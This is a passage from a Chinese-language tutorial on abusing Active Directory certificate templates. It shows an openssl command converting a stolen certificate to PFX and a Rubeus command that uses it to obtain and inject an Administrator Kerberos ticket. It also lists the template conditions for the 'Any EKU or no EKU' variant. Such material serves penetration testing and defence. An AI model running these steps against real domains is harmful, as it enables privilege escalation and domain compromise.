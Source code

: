 成功通过申请后可得到含有公私钥的 pem 证书文件，使用 openssl 进行格式转化

```plain
/usr/bin/openssl pkcs12 -in ~/cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out ~/cert.pfx
```

20.11 后的 Rubeus 进行了 PKINIT 证书支持，使用 cert.pfx 作为 administrator 身份申请 TGT，成功获得 administrator 的票据

```plain
Rubeus4.exe asktgt /user:Administrator /certificate:cert.pfx /password:123456 /outfile:cert.kribi /ptt
```

![](assets/1711960542-cfaa1c95b3078dd41f80a83f04128425.png)

#### *Any EKU OR no EKU*

与第一种利用需满足的条件前四点相同的用户证书非机器证书，主要差别在 EKU 的描述：

-   颁发 CA 授予低权限用户请求权限 (默认)
-   模板中 CA 管理员审批未启用 (默认)
-   模板中不需要授权的签名 (默认)
-   模板允许低权限用户注册
-   **证书模板中定义了 no EKU 或 any EKU**
